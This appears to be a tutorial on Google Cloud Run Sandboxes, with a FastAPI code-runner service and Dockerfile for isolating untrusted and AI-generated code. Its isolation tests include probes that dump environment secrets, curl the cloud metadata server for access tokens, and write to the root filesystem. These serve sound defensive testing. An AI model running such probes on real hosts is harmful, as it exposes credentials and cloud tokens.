








# Getting Started with Google Cloud Run Sandboxes
### A Hands-On Guide to Safely Running Untrusted Code and AI Agent Workloads

---

## 1. Introduction

If you have built an AI agent, an automated coding platform, or a SaaS product where users can write custom automation scripts, you have probably run into this question:

> **How do I safely execute code that I didn't write?**

When an LLM generates a Python script to analyze a dataset, or when a student submits code for a programming assignment, that code is fundamentally untrusted. If you run it directly on your server, a buggy script or a clever attacker can:
- Steal your database credentials and API keys stored in environment variables.
- Query the Google Cloud metadata server to grab cloud access tokens.
- Delete or overwrite files on your system.
- Connect out to the internet to download malware or exfiltrate private data.

In the past, solving this was painful. You had to spin up dedicated virtual machines (which take 30 to 60 seconds to boot) or use third-party microVM services that add cost and latency.

**Google Cloud Run Sandboxes (now in Public Preview)** solve this directly. They give you a secure, disposable sandbox **right inside your existing Cloud Run container instance**. 

A sandbox starts in under 200 milliseconds, runs your untrusted code in strict isolation, and shares your container's existing CPU and memory so you do not pay anything extra.



---

### What We’ll Cover
- **The Hidden Security Trap**: Why executing AI-generated or user-submitted code with `eval()` exposes your database secrets and Google Cloud credentials.
- **The Zero-Trust Sandbox Model**: How Cloud Run Sandboxes isolate untrusted processes, block metadata server access, and deny outbound network traffic by default.
- **Step-by-Step 101 Walkthrough**: Deploying your first sandbox-enabled Cloud Run service in under 5 minutes (including verified live tests).
- **3 Production-Grade Use Cases (Built from Scratch)**:
  - 🎓 **Educational Autograder**: Running student code against hidden test suites using read-only bind mounts.
  - 🌐 **AI Research Web Scraper**: Enabling controlled egress (`--allow-egress`) while staying immune to metadata SSRF attacks.
  - 🛡️ **SecOps Malware Detonator**: Using background detached sandboxes and tarball snapshots to safely inspect suspicious scripts.
- **Production Best Practices**: Crucial gotchas around memory sizing, timeouts, and daemon modes.
- **Complete Source Code on GitHub**: Cloneable repository with all Dockerfiles, FastAPI microservices, and deployment scripts.

> [!TIP]
> **Get the Complete Code on GitHub**  
> All four reference applications, test suites, Dockerfiles, and deployment scripts featured in this tutorial are open-source and ready to clone:  
> 📦 **GitHub Repository**: [https://github.com/rominirani/cloud-run-sandboxes](https://github.com/rominirani/cloud-run-sandboxes)

---

## 2. Why Do We Need Sandboxes?

### Why `eval()` and Subprocesses Are Dangerous

When developers first experiment with AI agents that run code, they often start with something simple like this:

```python
# ⚠️ NEVER DO THIS WITH UNTRUSTED CODE
eval(user_code)

# Or even:
import subprocess
subprocess.run(["python3", "-c", user_code])
```

While this works in a local demo, it creates severe security vulnerabilities in production:

1. **Memory access**: `eval()` runs directly inside your application's Python process. Untrusted code can modify global state, inspect memory, or crash your web server.
2. **Leaking secrets**: When you call `subprocess.run()`, the child process inherits all of your host environment variables (`os.environ`). A script containing `import os; print(os.environ)` will dump your database passwords and API keys.
3. **Cloud token theft**: Any process running inside a standard Cloud Run container can reach Google's instance metadata server at `http://169.254.169.254`. An attacker can query this endpoint to steal a short-lived OAuth token and take over your Google Cloud project.
4. **Filesystem tampering**: The process can delete your application code, write backdoors, or fill up your disk.

### The Three Security Boundaries (The Zero-Trust Model)

Cloud Run Sandboxes fix these problems by enforcing three strict security boundaries by default:



1. **Credentials & Environment Isolation**:
   The sandbox does not get any of your host environment variables. Even better: the Google Cloud metadata server (`169.254.169.254`) is completely blocked. If code inside the sandbox tries to fetch a token, the connection is instantly rejected.
2. **No Internet Access (Deny-by-Default)**:
   By default, all outbound network traffic from the sandbox is blocked. Code cannot phone home to an attacker's server or download unauthorized files. If your workload genuinely needs internet access (for example, to scrape a webpage), you must explicitly enable it with the `--allow-egress` flag.
3. **Read-Only Filesystem**:
   The sandbox can see the files in your container image, but only in **read-only** mode. If it tries to create or modify a file, the Linux kernel stops it with a `Read-only file system` error. If your code needs to write temporary files, you can pass the `--write` flag, which gives it a temporary in-memory filesystem that gets wiped clean the moment the sandbox exits.

### How It Compares to Traditional VMs

| What You Might Consider | Traditional VMs | External Sandbox SaaS | Cloud Run Sandboxes |
| :--- | :--- | :--- | :--- |
| **Startup time** | 30–60 seconds | 1–3 seconds | **Under 200–500ms** |
| **Extra cost** | Hourly VM costs | Per-call API fees | **Free (uses existing container CPU/RAM)** |
| **Setup complexity** | Complex VM pools | Extra vendor API keys | **Just a single CLI flag** |
| **Network overhead** | Extra network hops | Data leaves your cloud | **Runs locally on your instance** |

---

## 3. Step-by-Step: Getting Started

### Prerequisites

To follow along, make sure you have:
1. A Google Cloud project with billing enabled.
2. The `gcloud` CLI installed with the `beta` components:
   ```bash
   gcloud components install beta
   ```
3. Cloud Run enabled in your project:
   ```bash
   gcloud services enable run.googleapis.com
   ```

### Enabling Sandboxes on Cloud Run

Cloud Run Sandboxes require the **second-generation execution environment (`gen2`)**. Enabling them is as simple as adding the `--sandbox-launcher` flag when deploying.

#### Using the `gcloud` CLI:
```bash
gcloud beta run deploy my-service \
    --source . \
    --region us-central1 \
    --execution-environment gen2 \
    --sandbox-launcher \
    --memory 1Gi \
    --cpu 1
```

If you already have a running Cloud Run service, you can turn sandboxes on with an update command:
```bash
gcloud beta run services update my-service \
    --sandbox-launcher \
    --region us-central1
```

#### Using YAML:
If you prefer declarative configuration, set `sandboxLauncher: true` in your container spec:

```yaml
apiVersion: serving.knative.dev/v1
kind: Service
metadata:
  name: my-service
spec:
  template:
    spec:
      containers:
      - image: us-central1-docker.pkg.dev/my-project/repo/image:latest
        sandboxLauncher: true
```

### How the `sandbox` CLI Works

When you enable the sandbox launcher flag (`--sandbox-launcher`), Cloud Run automatically mounts a specialized management binary into your container at `/usr/local/gcp/bin/sandbox`.

> [!NOTE]
> **Don't worry if these look like manual terminal commands!**
> You might look at the commands below and wonder: *"Wait, how do I use this inside my serverless service? Do I have to SSH into Cloud Run?"*
>
> Absolutely not! In serverless applications and AI agent platforms, you rarely run these commands manually in a shell. Instead, your application runtime (FastAPI in Python, Express in Node.js, Go, or agent frameworks like LangChain and Google ADK) executes this exact binary programmatically using standard process management (such as Python's `subprocess.run`).
>
> In **Section 4**, we will show you how to wrap this CLI inside a production-ready FastAPI endpoint with just 15 lines of Python code. And in **Section 5**, we will connect it to three complete, real-world solutions (grading student submissions, scraping the web safely, and detonating malware). For now, think of this CLI as the engine under the hood that your application code will steer.

Here are the primary commands provided by the CLI:

#### 1. `sandbox do` (One-Shot Execution)
Spins up a clean, isolated sandbox, executes your specified command, and destroys the sandbox the instant the command finishes:
```bash
sandbox do -- /usr/bin/python3 -c "print('Hello from a fresh sandbox!')"
```
You can pass runtime flags before the `--` separator to configure capabilities, such as allowing memory writes (`--write`) or opening outbound internet access (`--allow-egress`):
```bash
sandbox do --write --allow-egress -- /usr/bin/python3 fetch_data.py
```

#### 2. `sandbox run` (Background Daemon)
Spins up a named sandbox and keeps it running in the background. This is ideal when you need a pre-warmed environment or want multiple commands to share memory and files:
```bash
sandbox run my-box --detach -- /bin/bash -c "sleep 1h"
```

#### 3. `sandbox exec` (Fast Interactive Command Execution)
Executes a command inside an already-running background sandbox. Because the sandbox is already warm, commands start executing in **under 5 milliseconds**:
```bash
sandbox exec my-box -- /usr/bin/python3 -c "import pandas; print('Running inside warm box!')"
```

#### 4. `sandbox tar` (Export Workspace and File Changes)
Packs any files that were created or modified inside a running sandbox into a standard tarball archive on the host:
```bash
sandbox tar my-box --file=/tmp/saved-artifacts.tar
```

#### 5. `sandbox delete` (Teardown and Clean Up)
Immediately terminates and removes an active background sandbox, releasing all associated memory and kernel structures:
```bash
sandbox delete my-box
```

---

### Execution Modes and Storage Options

Now that you know the CLI primitives, let's look at how to architect your workload. Cloud Run Sandboxes give you two distinct execution lifecycles and four flexible storage options.

#### Execution Mode 1: One-Shot Lifecycle (`sandbox do`)

One-shot execution is the simplest and safest pattern. You invoke `sandbox do`, a fresh gVisor sandbox boots in ~150 milliseconds, executes your command to completion, streams its output back, and completely self-destructs.

* **Best for**: Single-turn tasks such as evaluating student code submissions, parsing untrusted webhooks, grading algorithms, or one-off mathematical calculations.
* **Why it shines**:
  * **Absolute Hygiene**: There is zero residual state. Tenant A cannot leave files, processes, or memory artifacts behind for Tenant B.
  * **Zero Maintenance**: You don't have to manage background processes, track session timeouts, or write teardown logic.



#### Execution Mode 2: Stateful Background Daemon (`sandbox run` + `sandbox exec`)

Modern AI agents rarely solve problems in a single turn. An autonomous coding agent might write code, run tests, observe a traceback, edit a file, and re-run tests until all checks pass. 

If you spun up a fresh sandbox for every micro-step, the 150ms cold-start latency would add up quickly, and files saved during step 1 would disappear before step 2.

Mode 2 solves this:
1. You launch a detached sandbox with `sandbox run <id> --detach`. You pay the 150ms startup cost **only once**.
2. Your agent runs commands inside this active environment via `sandbox exec <id>`. Each command kicks off in **under 5 milliseconds**, delivering the responsiveness of a local shell.
3. State and disk modifications persist in the writable overlay across multiple `exec` calls.
4. When the task is complete, you can optionally archive modified files using `sandbox tar`, and cleanly destroy the environment with `sandbox delete`.

* **Best for**: Multi-turn AI code generation, iterative bug-fixing loops, dynamic malware detonation and forensic analysis, and interactive Jupyter-style data exploration.



#### Filesystem and Storage Architecture

How do files move between your host container and the isolated sandbox? Cloud Run Sandboxes provide four storage mechanisms designed around the principle of least privilege:



1. **Read-Only Root (`/`) by Default**:
   The sandbox automatically inherits your host container's file system, giving untrusted code access to installed Python packages, language runtimes, and system utilities. However, the root filesystem is strictly **read-only**. Any attempt by untrusted code to run `rm -rf /`, overwrite system binaries, or alter configuration files fails immediately with `EROFS: Read-only file system`.

2. **In-Memory Scratchpad (`--write` or `--write /path`)**:
   If your code needs to compile binaries, generate temporary files, or write output CSVs, pass `--write` (or `--write /path`). This attaches a fast, memory-backed `tmpfs` layer. Because it lives purely in RAM, operations are blazingly fast and never touch physical disks. Once the sandbox stops, this memory layer is purged completely.

3. **Targeted Host Bind Mounts (`--mount`)**:
   When you need to feed specific data into the sandbox (like reference unit tests, model weights, or input images), use bind mounts:
   ```bash
   --mount type=bind,source=/tmp/tests,target=/mnt/tests,readonly
   ```
   Specifying `readonly` guarantees that the sandbox cannot tamper with the original test files or datasets on the host.

4. **Archive Snapshots and Workspace Sync (`sandbox tar` and `--sync-tar`)**:
   To preserve work across separate sandbox runs or save generated files to Cloud Storage, you can snapshot modified files using `sandbox tar`:
   ```bash
   sandbox tar my-box --file=/tmp/output.tar
   ```
   Conversely, when launching a new sandbox, you can pre-seed it with an existing workspace archive using `--sync-tar`:
   ```bash
   sandbox do --sync-tar=/tmp/project-template.tar -- /bin/bash run_build.sh
   ```

---

## 4. A 101 Example: A Safe Code Execution Service

Let's build a minimal FastAPI service that accepts Python or Bash code over HTTP and runs it inside a sandbox.

All code for this example is located in [`examples/01-hello-sandbox-101/`](examples/01-hello-sandbox-101/).

### The Code Walkthrough

#### `main.py`
```python
import os
import shutil
import subprocess
import time
from typing import Literal
from fastapi import FastAPI
from pydantic import BaseModel, Field

app = FastAPI(title="Cloud Run Sandbox 101 Runner")

# Check if the sandbox binary is available
SANDBOX_BIN = "/usr/local/gcp/bin/sandbox" if os.path.exists("/usr/local/gcp/bin/sandbox") else shutil.which("sandbox")

class ExecutionRequest(BaseModel):
    language: Literal["python", "bash"] = "python"
    code: str
    allow_write: bool = False
    allow_egress: bool = False
    timeout_sec: int = Field(default=10, ge=1, le=60)

class ExecutionResponse(BaseModel):
    success: bool
    exit_code: int
    stdout: str
    stderr: str
    execution_time_ms: float
    is_sandboxed: bool

@app.post("/run", response_model=ExecutionResponse)
def run_code(req: ExecutionRequest):
    start = time.time()
    
    if not SANDBOX_BIN:
        return ExecutionResponse(
            success=False,
            exit_code=-1,
            stdout="",
            stderr="ERROR: 'sandbox' binary not found. Make sure you deployed with --sandbox-launcher.",
            execution_time_ms=0,
            is_sandboxed=False,
        )

    # Pick the interpreter
    interpreter = ["/usr/bin/python3", "-c", req.code] if req.language == "python" else ["/bin/bash", "-c", req.code]

    # Build the sandbox command
    cmd = [SANDBOX_BIN, "do"]
    if req.allow_write:
        cmd.append("--write")
    if req.allow_egress:
        cmd.append("--allow-egress")
    cmd.append("--")
    cmd.extend(interpreter)

    try:
        proc = subprocess.run(cmd, capture_output=True, text=True, timeout=req.timeout_sec)
        return ExecutionResponse(
            success=(proc.returncode == 0),
            exit_code=proc.returncode,
            stdout=proc.stdout,
            stderr=proc.stderr,
            execution_time_ms=(time.time() - start) * 1000,
            is_sandboxed=True,
        )
    except subprocess.TimeoutExpired as e:
        return ExecutionResponse(
            success=False,
            exit_code=124,
            stdout=e.stdout or "",
            stderr=f"Execution timed out after {req.timeout_sec} seconds.",
            execution_time_ms=(time.time() - start) * 1000,
            is_sandboxed=True,
        )

# Health check endpoint
@app.get("/")
def health():
    return {
        "status": "healthy",
        "sandbox_available": bool(SANDBOX_BIN),
        "sandbox_path": SANDBOX_BIN or "Not Found"
    }

# Built-in endpoints to test security isolation
@app.post("/test/env-isolation")
def test_env_isolation():
    """Verify that host environment variables cannot be read inside the sandbox."""
    os.environ["HOST_SUPER_SECRET"] = "secret-token-do-not-leak"
    probe = "import os; print('HOST_SUPER_SECRET=' + os.getenv('HOST_SUPER_SECRET', '<NOT_FOUND>'))"
    return run_code(ExecutionRequest(language="python", code=probe))

@app.post("/test/metadata-isolation")
def test_metadata_isolation():
    """Verify that the GCP metadata server is blocked."""
    probe = "curl -s --connect-timeout 2 http://169.254.169.254/computeMetadata/v1/instance/ || echo 'METADATA_ACCESS_BLOCKED'"
    return run_code(ExecutionRequest(language="bash", code=probe, allow_egress=False))

@app.post("/test/fs-isolation")
def test_fs_isolation():
    """Verify that writing to the root filesystem fails without --write."""
    probe = "echo 'malicious write' > /test_probe.txt"
    return run_code(ExecutionRequest(language="bash", code=probe, allow_write=False))
```

#### Key Architecture & Implementation Details in `main.py`

##### 1. Dynamic Sandbox Binary Detection (`SANDBOX_BIN`)
When deploying to Cloud Run with `--sandbox-launcher`, Google's platform injects the sandbox supervisor binary into your container at `/usr/local/gcp/bin/sandbox`. By verifying existence with `os.path.exists()` and falling back to `shutil.which("sandbox")`, the service detects whether it is executing inside a sandbox-enabled Cloud Run container or a local environment. If the binary is missing, it returns a descriptive error message rather than crashing with an unhandled OS `FileNotFoundError`.

##### 2. Strict Request Validation with Pydantic (`ExecutionRequest`)
* **`language: Literal["python", "bash"]`**: Restricts execution strictly to supported runtimes, preventing callers from passing arbitrary or malicious system executables.
* **`timeout_sec: int = Field(default=10, ge=1, le=60)`**: Enforces hard minimums (1s) and maximums (60s) directly at the HTTP API layer, preventing resource-exhaustion attacks or runaway scripts (`while True: pass`).
* **`allow_write` and `allow_egress`**: Both default to `False`, enforcing the **Principle of Least Privilege** (deny-by-default) unless the caller explicitly opts in.

##### 3. Safe Command Construction & the `--` Separator
The CLI command is assembled as: `[SANDBOX_BIN, "do", ...flags..., "--", ...interpreter...]`. The double dash (`--`) is essential: it instructs the `sandbox` utility that launcher configuration flags (such as `--write` or `--allow-egress`) have ended, and all subsequent tokens belong to the target command. This prevents arguments inside user code from colliding with CLI options.

##### 4. Execution & Timeout Handling via `subprocess.run`
* **Independent Output Capture**: Captures `stdout` and `stderr` independently using `capture_output=True, text=True` without mixing streams or leaking untrusted output to the host console.
* **Clean Process Killing**: Wraps execution in a `try...except subprocess.TimeoutExpired` block. If the untrusted code hangs or exceeds the requested timeout, the process is terminated cleanly and returns exit code `124` (the standard POSIX timeout exit code) with zero lingering host processes.

##### 5. Self-Auditing Security Probe Endpoints
* **`/test/env-isolation`**: Injects `HOST_SUPER_SECRET` into the host environment, then executes an internal probe to prove the sandbox cannot read host credentials.
* **`/test/metadata-isolation`**: Attempts to query `http://169.254.169.254` (GCP metadata server) to verify that token harvesting is blocked.
* **`/test/fs-isolation`**: Attempts to write to `/test_probe.txt` on the root filesystem to prove that the root filesystem is strictly read-only.

---

#### `Dockerfile`
```dockerfile
FROM python:3.11-slim

RUN apt-get update && apt-get install -y --no-install-recommends \
    curl \
    ca-certificates \
    bash \
    && rm -rf /var/lib/apt/lists/*

# Ensure python3 is available at /usr/bin/python3
RUN ln -sf $(which python3) /usr/bin/python3

WORKDIR /app
COPY requirements.txt .
RUN pip install --no-cache-dir -r requirements.txt
COPY main.py .

ENV PORT=8080
EXPOSE 8080
CMD ["python3", "main.py"]
```

#### Key Implementation Details in `Dockerfile`

##### 1. Lightweight Base Image (`python:3.11-slim`)
Uses the official minimal Debian slim image, keeping image size small and eliminating unnecessary compilers or build tools from the container surface.

##### 2. Essential Utilities Only
Installs only `curl` (for testing network probes), `ca-certificates` (for TLS verification), and `bash`. Cleans `/var/lib/apt/lists/*` within the same layer to keep the image lean and minimize pull times during Cloud Run instance autoscaling.

##### 3. Canonical Symlink for Python (`RUN ln -sf $(which python3) /usr/bin/python3`)
In containerized Python environments, the binary may reside in custom virtualenv paths or `/usr/local/bin/python3`. Because the isolated sandbox launches with a minimal default `PATH`, creating a symlink at `/usr/bin/python3` guarantees that calls to `/usr/bin/python3` inside the sandbox resolve reliably every single time.

